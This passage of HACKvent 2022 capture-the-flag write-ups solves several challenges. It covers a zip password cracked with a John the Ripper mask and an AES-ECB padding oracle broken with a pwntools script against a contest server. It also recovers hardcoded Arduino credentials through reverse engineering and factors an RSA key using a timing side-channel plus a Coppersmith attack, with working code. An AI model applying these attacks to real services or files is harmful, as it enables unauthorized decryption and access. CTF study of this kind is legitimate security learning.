  { 'H': [93, 116, 356, 374, 736, 754, 1035, 1202, 1247], 
    'V': [384, 821, 1066, 1077, 1211, 1232, 1259, 1273, 1394, 1401], 
    '2': [118, 367, 1204, 1220, 1229, 1249]}

For the character `2` we are looking for two that are very close, the offsets
of 1200 and 1229 seem to be good candidates.  And yes there is a `V` at 1211
and a `H` at 1202!  Now we can print the flag starting at offset 1202 to get

  HV22{H4ck1ng_S4nta's_3-Sleigh} 

== [HV22.18] Santa's Nice List


=== Introduction

Santa stored this years "Nice List" in an encrypted zip archive. His mind
occupied with christmas madness made him forget the password. Luckily one of the
elves wrote down the SHA-1 hash of the password Santa used.

  xxxxxx69792b677e3e4c7a6d78545c205c4e5e26

Can you help Santa access the list and make those kids happy?

****
In this year's HACKvent, you can be assured that all bruteforcing hurdles do not
take longer than 5 minutes on an Intel(R) UHD Graphics 620, if done smartly and
correctly.

Please verify the following `sha256` integrity of the file downloaded in the
Resources: `9822fc94c812242907dedd6d7fd459aed6a571306d4a00dfec6ccdc14713beea`

Flag format: `HV22{}`

_This challenge was written by *keep3r*. I heard he's a true keeper._
****

=== Solution

First we went down a rabbit hole, testing against all known password lists to
see if they might be candidates for the password.  Besides taking longer than
five minutes it also did not yield any result.

Then in a discussion an article showed up, explaining that for very long
password zip will in fact use the sha-1 of the password as the password.  So by
knowing all but three bytes of the password, we can brute force the password
easily using "John the ripper".

The given, incomplete sha has to be converted to ASCII (which fortunately is
possible) and a mask constructed for john.  With brute forcing, it takes less
than 10 s to get the result:

	root@hlzar ❯ john --mask='?a?a?aiy+g~>LzmxT\\ \\N^&' zip.hash
	Using default input encoding: UTF-8
	Loaded 2 password hashes with 2 different salts (ZIP, WinZip [PBKDF2-SHA1 128/128 SSE2 4x])
	Loaded hashes with cost 1 (HMAC size) varying from 65 to 91
	Will run 2 OpenMP threads
	Press 'q' or Ctrl-C to abort, almost any other key for status
	0g 0:00:00:04 5.02% (ETA: 14:40:47) 0g/s 10725p/s 21961c/s 21961C/s /\oiy+g~>LzmxT\ \N^&..7|oiy+g~>LzmxT\ \N^&
	4Ltiy+g~>LzmxT\ \N^& (nice-list.zip/nice-list-2022.txt)     
	4Ltiy+g~>LzmxT\ \N^& (nice-list.zip/flag.txt)     
	2g 0:00:00:09 DONE (2022-12-18 14:39) 0.2116g/s 11052p/s 22105c/s 22105C/s ]wtiy+g~>LzmxT\ \N^&..SUtiy+g~>LzmxT\ \N^&
	Use the "--show" option to display all of the cracked passwords reliably
	Session completed. 
	root@hlzar ❯ 

The password opens the zip-file and gives both the flag and the nice list.  As
expected, the flag is very long.

  HV22{HAVING_FUN_WITH_CHOSEN_PREFIX_PBKDF2_HMAC_COLLISIONS_nzvwuj}

[NOTE]
====
See these links for further reading

- https://www.bleepingcomputer.com/news/security/an-encrypted-zip-file-can-have-two-correct-passwords-heres-why/

====

== [HV22.20] § 1337: Use Padding 📝

=== Introduction

Santa has written an application to encrypt some secrets he wants to hide from
the outside world. Only he and his elves, who have access too all the keys
used, can decrypt the messages 🔐.

Santa's friends Alice and Bob have suggested that the application has a padding
vulnerability❗, so Santa fixed it 🎅. This means it's not vulnerable anymore,
right❗❓

Santa has also written a concept sheet of the encryption process: 



****

Start the service in the `Resources` section, connect to it with `nc <docker>
1337` and get the flag!

You can download the service's source code from Resources section. We don't
want to make challenges guessy, do we? 😉

Flag format: `HV22{` 

_This challenge was written by *kuyaya*. He lives in the illusion where he
thinks people enjoy solving cryptography challenges._ 

****

=== Solution

The resources present us with a service that asks for an input and returns a
hex string.  Also given is the source code of the service:

[source, python]
----
include::day20/santa_aes_source.py[]
----

The source does pretty much what the drawing shows:

* the message `A` is padded, concatenated with the padded flag and encrypted

* the padding happens with '0' to the right and is aligned to 16-byte boundaries.

* the concatenated message is `encode()`d and then padded again.  Why???

* the flag is somewhere between 16 and 32 bytes long

* encryption happens in ECB mode and is thus vulnerable to a padding attack

The original padding happens on strings -- which are in python UTF-8 encoded.
For encryption, the strings have to be converted into bytes and this is what
`encode()` does.  If the message `A` contains multi-byte characters, then the
carefully arranged padding of the strings can be disturbed.  By injecting
carefully crafted messages, we can decode the flag one character at a time.

Plan of attack: 

create a message that consists of three parts:

1. a header of _n_*16-1 bytes length and one character (the character we're testing for)
2. a trailer, identical to the first _n_*16-1 bytes of the header
3. a centre part of 16 byte chunks

In total the parts 1 to 3 must consist of _n_*16 - 1 bytes, but be of _m_*16
characters length.  Because of this, the padding of the string does not insert
any zeros, but when `encode()` is called, the first character of the flag will
be the byte immediately following the trailer.  Testing for all printable
characters, we can compare the encrypted block for the header with the trailer.
If they are identical, we have found the first character of the flag.

Continue until we get a `}`, the end of the flag.

The code is quite straightforward:

[source, python]
----
#!/usr/bin/env python3
from Crypto.Cipher import AES
from os import urandom
import binascii
from pwn import *
context.defaults['encoding'] = 'utf-8'

CHARS = ['', '0', 'ö', '⓫', '𝄞'] # 0, 1, 2, 3, 4 byte wide characters

def buildHeader(targetLen: int):
    res = ''
    for i in range(4,0,-1):
        res += (targetLen // i)*CHARS[i]
        targetLen = targetLen % i
    return res

def buildCentre(nChars: int): 
    def lenCentre(p):
        res = 0
        for i in range(len(p)):
           res += p[i] * (i+1)
        return res   

    assert(nChars >= 4)
    p = [nChars, 0, 0, 0]
    while lenCentre(p) != 16:
        if p[2]>0:
            p[3] += 1; p[2] -= 1
        elif p[1]>0:
            p[2] += 1; p[1] -= 1
        else:
            p[1] += 1; p[0] -= 1
    return p[1]*CHARS[1] + p[2]*CHARS[2] + p[3]*CHARS[3] + p[0]*CHARS[0]    

# build a payload in UTF-8 that when expanded into bytes gives a payload of 47
# bytes.  The first 15 bytes and the last 15 bytes must be the same.
# s is the crib / string to be checked
def buildPayload(s):
    headerLen = 32 - len(s)
    header = buildHeader(headerLen)
    nCharsAssigned = 2*len(header)+len(s)
    found = False
    index = (nCharsAssigned // 16) + 1
    centre = ''
    nCentrePackets = 0
    while not found:
        goal = index * 16 # + 15
        if goal-4 < nCharsAssigned:
            print('not enough character to fill, increase index')
            index += 1
        else:
            toFill = goal - nCharsAssigned
            found = True
            if toFill % 16 < 4: 
                centre += buildCentre(4)
                toFill -= 4
            while toFill > 0:
                nCentrePackets += 1
                if toFill > 16:
                    centre += buildCentre(16)
                    toFill -= 16
                else:
                    centre += buildCentre(toFill)
                    toFill = 0
                    
    payload = header + s + centre + header 
    assert(len(payload)%16==0)
    return payload, nCentrePackets

def printPackets(s):
    for i in range(0,len(s),16):
        print(s[i:i+16])

# pad block size to 16, zfill() fills on left. Invert the string to fill on right, then invert back.
def pad(msg):
    if len(msg) % 16 != 0:
        msg = msg[::-1].zfill(len(msg) - len(msg) % 16 + 16)[::-1]
    return msg

def testChar(s,p):
    msg, index = buildPayload(s)
    pkt = encode(msg)
    p.recvline(b'Enter access code:')
    p.sendline(msg)
    pkt = p.recvline()
    return (
        pkt[(16 + (index + 2) * 16) * 2 : (32 + (index + 2) * 16) * 2]
        == pkt[32:64]
    )

def decode(ip, port):
    myFlag = ''
    while True:
        p = remote(ip,port)
        for i in range(33,127,1):
            tst = myFlag + chr(i)
            if testChar(tst, p):
                myFlag += chr(i)
                print(f'myFlag = {myFlag}, lastChr = {myFlag[-1]}')    
                break
            p.recvline()
            p.sendline(b'y')
        p.close()
        if myFlag[-1] == '}':
            return myFlag    

if __name__ == '__main__':
    flag = decode('152.96.7.11', '1337')
    print(f'here is your flag: {flag}')
----

... and prints `here is your flag: HV22{len()!=len()}`

[NOTE]
====
Pwntools cheat sheet https://gist.github.com/anvbis/64907e4f90974c4bdd930baeb705dedf
====

== [HV22.22] Santa's UNO flag decrypt0r


=== Introduction

The elves made Santa a fancy present for this Christmas season. He received a
fancy new Arduino where his elves encoded a little secret for him. However,
Santa is super stressed out at the moment, as the children's presents have to
be sent out soon. Hence, he forgot the login, the elves told him earlier. Can
you help Santa recover the login and retrieve the secret the elves sent him?

****
All 3 leet challenges have the 50 points bonus available for 48 hours.

Please verify the following `sha256sum` integrity for the downloadable file in
the Resources:
`b5153de211435392d2bb26f557d063bee4493b4b22c3ef272c01b6780d52f6aa``

Flag format: `HV22{}`

_This challenge was written by *explo1t*. Can you write an exploit for his
challenge though?_

****

=== Solution

The title of the challenge indicates that the Arduino board is an UNO-type.  So
when analysing it in ghidra, these settings were used to make the souce code
look a bit more pretty.



Turning on the analysis shows only a single main loop that queries for a
username:password and then, if it is correct, prints the flag.

`strings` on the binary gives some hints, such as `this_is_an_xor_key`.  So
looking at the decryption code in case the password was correct, we find that
it does basically this:

[source, python]
----
flg = ''
for i in range(len(pw)):
    flg += chr(ord(pw[i]) ^ flag[i])
print(flg)    
----

Since the flag is xor-ed with the password, we can reverse the password if we
know a crib by xor-ing the encrypted flag with the crib.  Looking through the
static data of the program, we find some interesting arrays:

[cols="a,a"]
|===
| Array name
| length

| `flag`
| 0x21

| `logins`
| 0x21

| `keys`
| 0x100

| `sec`
| 0x0d

|===

From this we assume that the length of the password is 0x21 characters.  A
quick check with a crib of `HV22{` shows that a password string of `santa` does
produce the desired crib.  We are on the right track.

Disecting the verification of the password proved more challenging.  It also
comes down to an obfuscated xor of the password with some static data.  Here is
the relevant portion as reversed from Ghidra:

[source,c]
----
    iVar24 = 0;
    __numer = 0;
    pbVar10 = logins;
    pbVar21 = passwd;
    do {
      pbVar20 = pbVar21 + 1;
      bVar14 = *pbVar21;
      pbVar21 = pbVar10 + 1;
      bVar8 = *pbVar10;
      *puVar25 = 0x1b;
      puVar25[-1] = 3;
      puVar25[-2] = 0;
      dVar28 = __divmodhi4(__numer,__denom);
      bVar19 = (byte)((ulong)dVar28 >> 0x10);
      bVar19 = *(byte *)CONCAT11((char)((ulong)dVar28 >> 0x18) - ((bVar19 < 0xb0) + -3),
                                 bVar19 + 0x50);
      if ((bVar14 ^ *(byte *)(CONCAT11(-((bVar19 < 0xcd) + -2),bVar19 + 0x33) + 0x25)) == bVar8) {
        iVar24 = iVar24 + 1;
      }
      bVar8 = (char)__numer + 1;
      cVar18 = (char)((uint)__numer >> 8) - (((char)__numer != -1) + -1);
      __numer = CONCAT11(cVar18,bVar8);
      pbVar10 = pbVar21;
      pbVar21 = pbVar20;
    } while (bVar8 != 0x21 || cVar18 != (byte)(unaff_R1 + (bVar8 < 0x21)));
    if (iVar24 == 0x21) break;
----

The loop steps through all characters in the password and uses `numer` as the
index.  `divmodhi4` calculates both quotient and remainder of
`numer`/`denom` and stores them in a struct.  `denom` is fixed to 0xd, so
there is a probable relation to the array `sec`.  `bVar19` is set to `numer %
denom` and by stepping through for `numer = 0` we can convince ourselves
that the second assignment to `bVar19` is in fact a lookup to `sec` which
starts at address 0x250.  

Continuing, we notice that the comparison in the `if` statement is another
lookup, this time into the array `keys`.  We can now extract the password from
the three arrays by xor-ing from the right with the lookup to `keys` and turning
the comparison into an assignment.  The equivalent python code is very simple
(remember that the arrays were copied out into python arrays local to the code,
so the address-offsets for keys has to be subtracted):

[source, python]
----

pw = ''
for i in range(len(logins)):
    b2 = sec[i % 0xd]
    b3 = -((b2 < 0xcd) + -2)
    b4 = (b2 + 0x33) & 0xFF
    b5 = b3*0x100 + b4 + 0x25 - 0x150
    c = logins[i] ^ keys[b5]
    pw += chr(c)
print(pw)
----

This code prints `santa:i_love_hardc0ded_cr3dz!!!:)` and using this password we
can decode the flag to

  HV22{n1c3_r3v3r51n6_5k1llz_u_g07}

== [HV22.24] It's about time for some RSA

=== Introduction

Santa is giving autographs! And at the end of the signing session he'll also
give out the flag! But better hurry; as Santa has lots to do this time of
year, he can only spend so much time to giving out autographs.

PS: Thanks to the latest in cloning technology, there are six Santas, so up to
six signing session can take place at the same time!

****
Start the Docker in the Resources and connect to it with nc <DOCKER> 5825

Please verify the following sha256 integrity of the source in the Resources:
`20568000e7dd9bf9ac41885d4d1954f0814a9cd8b9960be87e69624a9ce534a9`

Flag format: `HV22{}`
****

[NOTE]
====

====

=== Solution

This one was a hard one, but also rewarding in the end.

We are given an application, that presents us with a signing service:

****
  Welcome to Santas Signing Session

  modulus: n = 0x9617ddbf9f295b5e495a8468fe21c37e3b694e820b06a83b4396b6c4f26da371d36c347b015f93a192cd55393da5ef5ec67e106194a9b748d6410d4430588518b13d396c6f7c5158cceb5d2dbb984fd178ed560ca9c746f9594fae0177f2e95f
  exponent: e = 0x10001
  prime: p = 0xc4ec9ef621e292f5db11b00ff6516f72fb593c85...
  Santa has 75000000000 energy remaining. Don't over-tax santa
  
  Do you want an autograph before you pick up your flag? [yN]
  y
  What's your name for the autograph?
  santa
  Here is your autograph: 2d39eac931a3c986972d05e79cf9e7b6d1fe5a35d2d146758783ce22795a8a828d796adc89c77a9eb17d22d4dacd01b2079fea3cf0fbb9a6674f4c7e1fa8c44b768cd50b7c1d1e1e0cb38973a490f761558c52f5f8a6a6b6cdeb57850e1b9914
  Santa has 74989498013 energy remaining. Don't over-tax santa
  Do you want another autograph? [yN]
  n
  And here is your flag: 1a7c01ed672714db3c5f08d5e2fcc1fe721ceecab61da71a768c87327860de1b5a7d1f1567de97db4f6182582635c9892f5968bc3ec1167e1605c0584f7d989eb806c4e238dd195479f291c125c5d08f2d400fc772830d62be3e1fe211371780
  Have a nice day!
****

So we get a modulus _n_, the public exponent _e_, and parts of the prime _p_
that is one of the factors of _n_.  

The signature of our input is (supposedly) the message (the word "santa" here)
taken to the power of the secret exponent _d_ modulo _n_.  This can be verified

****
  >>> e = 0x10001
  >>> s = 0x2d39eac931a3c986972d05e79cf9e7b6d1fe5a35d2d146758783ce22795a8a828d796adc89c77a9eb17d22d4dacd01b2079fea3cf0fbb9a6674f4c7e1fa8c44b768cd50b7c1d1e1e0cb38973a490f761558c52f5f8a6a6b6cdeb57850e1b9914
  >>> n = 0x9617ddbf9f295b5e495a8468fe21c37e3b694e820b06a83b4396b6c4f26da371d36c347b015f93a192cd55393da5ef5ec67e106194a9b748d6410d4430588518b13d396c6f7c5158cceb5d2dbb984fd178ed560ca9c746f9594fae0177f2e95f
  >>> m = pow(s,e,n)
  >>> m.to_bytes(72, 'little')xt
  '\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00a\x00\x00\x00a\x00\x00\x00t\x00\x00\x00t\x00\x00\x00n\x00\x00\x00n\x00\x00\x00a\x00\x00\x00a\x00\x00\x00s\x00\x00\x00s'
****

The input (`santa`) is returned in the signature, but spread out over the whole
signature.  Luckily, later in the challenge, the source code to create the hash
was published and can be studied.

[source, rust]
----
fn calc_block(us: &[u32]) -> u64 {
    let mut s1 = 0u64;
    let mut s2 = 0u64;
    for v in us {
        let v = *v as u64;
        s1 = (s1 + v) & 0xffff_ffff;
        s2 = (s2 + s1) & 0xffff_ffff;
    }
    return (s2 << 32) | s1;
}

fn hash(msg: Vec<u8>) -> Vec<u8> {
    let mut segs = Vec::with_capacity(HB_COUNT);
    for _ in 0..HB_COUNT {
        segs.push(Vec::new());
    }
    for (i, b) in msg.iter().enumerate() {
        segs.get_mut(i % HB_COUNT).unwrap().push(*b);
    }
    let mut digest = Vec::with_capacity(HB_COUNT * 8);
    for mut seg in segs {
        let m = seg.len() % 4;
        if m != 0 {
            seg.extend(vec![0u8; 4 - m]);
        }
        let seg = seg
            .chunks(4)
            .map(|d| u32::from_le_bytes(d.try_into().unwrap()))
            .collect::<Vec<_>>();
        digest.extend(calc_block(&seg).to_le_bytes());
    }
    digest
}
----

The hash is 72 bytes long, but different from a cryptographic hash it can
easily be reversed.  

From the hints, we take it two pieces of information:

- there is an attack on RSA when a prime is partially known named "Coppersmith"
  or "Coppersmith-Howgrave-Graham".  For it to be successful, we need about 260
  out of 384 bits for _p_

- Schindler showed a timing attack on RSA based on the exponentiation algorithm
  used.  With this attack, in priciple, it is possible to leak all bits of a
  multiple of the prime _p_.  In the present case, however, this will not work
  because we have only a limited budget for the timing-based attack.

With this in mind, the plan of attack looks like this:

1. for the time based attack, we need a way to provide the signing application
with an input that gives a defined integer _u_ for the attack.  So we have
first to reverse-engineer the hash-function.

2. Run the timing-based attack and get more digits of _p_

3. run the Coppersmith attack to get _p_ and _q_, the factors of _n_

4. calculate _d_ from _p_, _q_, _e_, and _n_ 

==== Reverse-engineer the hash function

Understanding the hash function, with the source code of the hash function, was
relatively easy: the characters entered can be interpreted as hex, thus we can
send any value, not just printable characters.  The individual bytes are stored
in vectors that are themselves part of a 9-element vector:

   [ [0, 9]
     [1, ..]
     [2, ..]
     [3, ..]
     [4, ..]
     [5, ..]
     [6, ..]
     [7, ..]
     [8, ..] ]

Each of these nine vectors is then padded to a multiple of 4 bytes and from
these integers are formed.  After this step, the function `calc_block` is
called that takes the vector of integers as input and returns a 64-bit integer.
These 9 64-bit-integers are then interpreted as a 72-byte integer and taken as
the input to sign.  The step of `calc_block` explains why in our test-input we
see each character showing up twice.

Reversing the hash was time consuming, but the oracle allowed for thorough
debugging and confirmation of the implementation.  The implementation in python
allows for a round-trip of `select a number u` -> `calculate in input that
corresponds to u` -> `have the input signed` -> `decode the signature` ->
`compare with input`.

[source, python]
----
def chunker(seq, size):
    return (seq[pos:pos + size] for pos in range(0, len(seq), size))

def calc_block(us):
    s1, s2 = 0, 0
    for v in us:
        s1 = (s1 + v) & 0xffff_ffff
        s2 = (s2 + s1) & 0xffff_ffff
    return ((s2 << 32) | s1) & 0xffff_ffff_ffff_ffff

def calc_vs(u):         # inverse of calc_block
    s1 = u % 0x1_0000_0000
    s2 = u // 0x1_0000_0000
    v1 = (s2 - s1) & 0xffff_ffff
    v2 = (s1 - v1) & 0xffff_ffff
    tmp = (v1 + v2) & 0xffff_ffff
    tmp1 = (v1 + v1 + v2) & 0xffff_ffff
    return [v1, v2]

def msg_to_bseg(msg):
    segs = [[] for _ in range(HB_COUNT)]
    for (i, b) in enumerate(msg):
        segs[i % HB_COUNT].append(b)
    return segs

def bseg_to_vseg(b_segs):
    v_segs = []
    for seg in b_segs:
        m = len(seg) % 4
        if m != 0:
            for _ in range(4 - m):
                seg.append(0)
        newSeg = [int.from_bytes(t, 'little') for t in chunker(seg, 4)]
        v_segs.append(newSeg)
    return v_segs

def vseg_to_seg(v_seg):
    return [calc_block(vs) for vs in v_seg]

def sseg_to_bits(segs):
    digest = b''
    for s in segs:
        digest += s.to_bytes(8, byteorder='little')
    return digest[::-1]

def hash(msg):
    b_segs = msg_to_bseg(msg)
    v_segs = bseg_to_vseg(b_segs)
    s_segs = vseg_to_seg(v_segs)
    return sseg_to_bits(s_segs)

def bytes_to_seg(byt):
    return [int.from_bytes(t, 'little') for t in chunker(byt, 8)]

def seg_to_vseg(seg):
    return [calc_vs(s) for s in seg]

def vseg_to_bseg(v_seg):
    b_seg = []
    for s in v_seg:
        tmp = []
        for v in s:
            tmp.extend(v.to_bytes(4, byteorder='little'))
        b_seg.append(tmp)
    return b_seg

def bseg_to_msg(b_seg):
    res = b''
    for i in range(HB_COUNT * 8):
        tmp = b_seg[i % HB_COUNT]
        tmp2 = tmp[i // HB_COUNT]
        res += tmp2.to_bytes(1, byteorder='little')
    return res

def reverse_hash(u):
    byt = u.to_bytes(HB_COUNT * 8, 'big')
    s_segs = bytes_to_seg(byt)
    v_segs = seg_to_vseg(s_segs)
    b_segs = vseg_to_bseg(v_segs)
    return bseg_to_msg(b_segs)
----

Note that the inversion of `calc_block` returns only two values, even though
`calc_block` takes a vector as input.  All resulting 64-bit-integers that come
out of `calc_block` can be generated using only two 32-bit integers.

One major stumbling block was to get the round trip complete, was the
realization, that the message entered is in big-endian mode, not in
litte-endian as all the other conversions.

With the function `reverse_hash` we can now generate inputs for any desired
value of _u_.

==== Timing-based attack

Implementing the timing based attack took the longest.  While the gist of the
attack is easily understood, the nitty gritty details of making it work led to
a few wrong turns and cost time.

The basic premise is that the time for exponentiation `_u_^_d_ mod _n_` depends
systematically on _u_: if _u_ is a multiple of either _p_ or _q_ then the time
changes discontually.  This jump in execution time can be detected and used to
narrow in on the true value using bisection.  See the orignal paper for the
detailed explanation.  Measuring the execution time can be done using the
reported energy by the oracle (this means we do not have to worry about the
real execution times that are even more marred by network jitter...).

  Santa has 74989498013 energy remaining. Don't over-tax santa

Since we know the highest bytes of _p_, we also know lower and upper limits for
the true value: extend _p_ with zeros for the lower limit, with `ff` for the
upper limit.

Bisection can be done more or less as in the paper, but some care has to be
taken to take the "noise" in the timings into account.  Contrary to the nice
and smooth sawtooth pattern in the paper, in our reality the jitter from point
to point is of similar order to the expected jumps.  This means that we need a
way to average the jitter to make reliable decisions.

The two main functions are to measure the execution times and the bi-section
itself

[source,python]
----
TIMINGS = {}

def getMeasurements(p, u, energy):
    ntries = 75
    tus = []
    for i in range(ntries):
        utmp = u * 2 + i
        if utmp not in TIMINGS:
            tu, _, energy = getSig(p, utmp, energy)
            TIMINGS[utmp] = tu
        tus.append(TIMINGS[utmp])
    return tus, energy

def counterInterval(p, u2, u1, thresh, energy):
    tu1s, energy = getMeasurements(p, u1, energy)
    tu2s, energy = getMeasurements(p, u2, energy)

    ds = [tu2s[i] - tu1s[j] for i, j in itertools.product(range(len(tu2s)), range(len(tu1s)))]

    cnt = sum(1 if d < thresh else -1 for d in ds)
    return cnt, energy

def part2(p, u2, u1, thresh, energy):
    while energy >= 1_000_000_000 or (u2 - u1) < 2 ** 32:
        u3 = findBisect(u1, u2)
        print(f'energy = {energy:12d}, u1 = {u1:100x}')
        print(f'                       u3 = {u3:100x}')
        print(f'                       u2 = {u2:100x}')

        counter, energy = counterInterval(p, u2, u1, thresh, energy)
        counter_low, energy = counterInterval(p, u3, u1, thresh, energy)
        counter_hi, energy = counterInterval(p, u2, u3, thresh, energy)
        print(f'counter = {counter}, cntLo = {counter_low}, cntHi = {counter_hi} --> {counter_low > counter_hi}')
        print(f'{thresh}')
        if counter_hi < 0 and counter_low < 0:
            u23 = findBisect(u2, u3)
            u13 = findBisect(u3, u1)
            counter_mid, energy = counterInterval(p, u23, u13, thresh, energy)
            print(f'counter_mid = {counter_mid}')
            if counter_mid > 0:
                u2 = u23
                u1 = u13
            else:
                print('took a wrong turn...')
                return -1, -1, energy
        elif counter_low > counter_hi:
            u2 = u3
        else:
            u1 = u3

    return u2, u1, energy
----

Measuring the execution times is done by measuring the _ntries_ values upwards
from the desired value.  The measurements are cached for re-use to conserve
Santa's energy.  To judge if the real value is in the interval, all differences
between the measured times are calculated and compared to a threshold.  A
counter is then returned as an indicator of the likelyhood of containing the
value. 

Bi-section compares the counters for the upper and the lower half, the better
one is taken.  If both values are negative, it is checked if the "middle
interval" is a better candidate -- in the hope that this would deal with
uncertain cases.  

In retrospect, the most important insight was to find the right way to select
the interval.  Several approaches were tried (averaging, backtracking, ...)
before settling on the approach.  Also, finding the right number of _ntries_
was important (thanks Engy!), 64 didn't work, 96 didn't yield enough bits. 

The final result of a run looked like

  energy =   1144127315, u1 = f880547bf47e5bd5441dd97e49ef95e5d4adbfb7229936bf209166fbdb7f25dbae7fffffffffffffffffffffffffffffffff
                       u3 = f880547bf47e5bd5441dd97e49ef95e5d4adbfb7229936bf209166fbdb7f25dbae8fffffffffffffffffffffffffffffffff
                       u2 = f880547bf47e5bd5441dd97e49ef95e5d4adbfb7229936bf209166fbdb7f25dbae9fffffffffffffffffffffffffffffffff
  counter = 250, cntLo = 504, cntHi = -996 --> True
  -1600
  n: bd07eca878c684ec1b00456b9ece383843d402c0e4b4625b64bc2e966137ab416771dbe556337175159087a7498ce0f7994b56355d5dcb108d4a02e2e388a7da018ef8941df25d20def4f50536f4a87815e0bd9ba3d96529eb58202a5f90a10b
  e: 10001
  prime: 00000000000000000000000000000000f880547bf47e5bd5441dd97e49ef95e5d4adbfb7
  u1: f880547bf47e5bd5441dd97e49ef95e5d4adbfb7229936bf209166fbdb7f25dbae7fffffffffffffffffffffffffffffffff
  b'\nAnd here is your flag:'
  flag = 7e362852f3d84f250f0ff156739463b4fc0490c87e4e1ed5927f4e074202dbc8d7f09b0cae5dddca6c26e10c9e0bd74a7d0dd5cdf42b08a14d28c6d95dffaca7e9aaef29dcca85e5599f4ef6244e24e752e052c14d893c6ee90fc40b3ce71c0e
  [*] Closed connection to 152.96.7.9 port 5825
  

==== Coppersmith attack

To implement the Coppersmith attack, use was made of some sage-code on github
and the related blog post at
https://cryptologie.net/article/222/implementation-of-coppersmith-attack-rsa-attack-using-lattice-reductions/.
The source code has to be adapted to make it more pretty, but works otherwise
right out of the box.  Example 2 in the code can be used almost verbatim to
define the function solve:

[source, sage]
----
def solve(n, qbar):
    F.< x > = PolynomialRing(Zmod(n), implementation='NTL')
    pol = x - qbar
    dd = pol.degree()

    # PLAY WITH THOSE:
    beta = 0.5  # we should have q >= N^beta
    epsilon = beta / 7  # <= beta/7
    mm = math.ceil(beta ** 2 / (dd * epsilon))  # optimized
    tt = math.floor(dd * mm * ((1 / beta) - 1))  # optimized
    XX = math.ceil(n ** ((beta ** 2 / dd) - epsilon))  # we should have |diff| < X

    roots = coppersmith_howgrave_univariate(pol, n, beta, mm, tt, XX)
    ok = False
    for r in roots:
        print(f'root:  {r:x}')
        print(f'qbar:  {qbar:x}')
        if r == qbar or r == -qbar:
            print('root is the same as qbar')
            break
        for f in [-1,1]:
            rbar = r
            q = qbar - f*rbar
            res.append(q)
            p = n // q

            if p * q == n:
                print('XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX')
                print(f'q = {q:x}')
                print(f'p = {p:x}')
                ok = True
                break
    if ok:
        print(hex(q))
        print(hex(p))
        print(hex(p * q))
        return p, q
    return -1, -1
----

For the parameters _n_ and _qprime_, the approximation of the factor _q_, the
function returns both _p_ and _q_ or -1 if no solution was found.  Since we do
not know the length of _q_ _a priori_, we need a simple loop to test candidates
with different bit-sizes.  This is why a small driver-loop is needed:

[source, sage]
----
    tmp = -1
    while tmp == -1 and math.log(u1)/math.log(2) > 382:
        tmp, tmq = solve(n, u1)
        u1 //= 2
----

With our parameters, we get an output of for an approximated _q_ of 384 bits.

  q = f880547bf47e5bd5441dd97e49ef95e5d4adbfb7229936bf209166fbdb7f25dbae830a8842d75f7929bb5a6262e42ea5
  p = c2bc2fcae0437aee2d97baa2b586df7d8ee4cae5399baa4577e10f8a69e509ad7fa0583f94fbd377c851b50745d5b1ef

==== Calculating _d_ and getting the flag.

_d_ must be calculated as part of the creation of public/private keys.  So we
can use a standard setup as _d_ = _e^-1_ mod (_p_ - 1)*(_q_ - 1).  Then we
can get the flag using _m_ = _flag_^_e_ mod _n_ and decode to ASCII:

[source, python]
----
phi = (tmp-1)*(tmq-1)
d = inverse_mod(0x10001, phi)
print(f'd * e mod phi = {d*e % phi}')
msg = int(pow(flag, d, n))
print(f'msg = {msg}')
flg = ''
while msg>0:
    c = msg % 0x100
    flg += chr(c)
    msg //= 0x100
print(flg[::-1])
----

Which prints

  HV22{S4n74s_t1m3_i5_up0n_u5!}
  
plus some garbage from the padding.

[NOTE]
====

- Schindler's paper cam be found at
  https://www.polarssl.org/public/WSchindler-RSA_Timing_Attack.pdf
- D. Coppersmith, J. Cryptology (1997= 10; 233--260. +
  https://link.springer.com/article/10.1007/s001459900030
- Implementation of the Coppersmith attack can be found at
  https://cryptologie.net/article/222/implementation-of-coppersmith-attack-rsa-attack-using-lattice-reductions/
  and the associated source code is at
  https://github.com/mimoo/RSA-and-LLL-attacks/blob/master/coppersmith.sage

- Many thanks to *engy* for inspiring discussions and help

====

== [HV22.H1] Santa's Secret


_S4nt4444.....s0m3wh3r3 1n th3 34sy ch4ll4ng3sss.....th3r3s 4n 34sy fl4g
h1ddd3333nnnn.....sssshhhhh_

There is no 24h bonus on the hidden challenges!

=== Solution

The secret flag is hidden in the .gcode file for day05: grepping for comments
shows this fragment:

  ;G1 X34.st3r E36 ;)
  ;G1 X72.86 Y50.50 E123.104
  ;G1 X49.100 Y100.51 E110.45
  ;G1 X102.108 Y52.103 E33,125
 
The first line seems to be leet sp34k for Easter egg and the following
numbers are the ASCII codes for the flag `HV22{h1dd3n-fl4g!}`

== Other write-ups

* https://dhsl.github.io/hv22
* creation of day19: https://github.com/mathewmeconry/reentry-to-nice-list-2

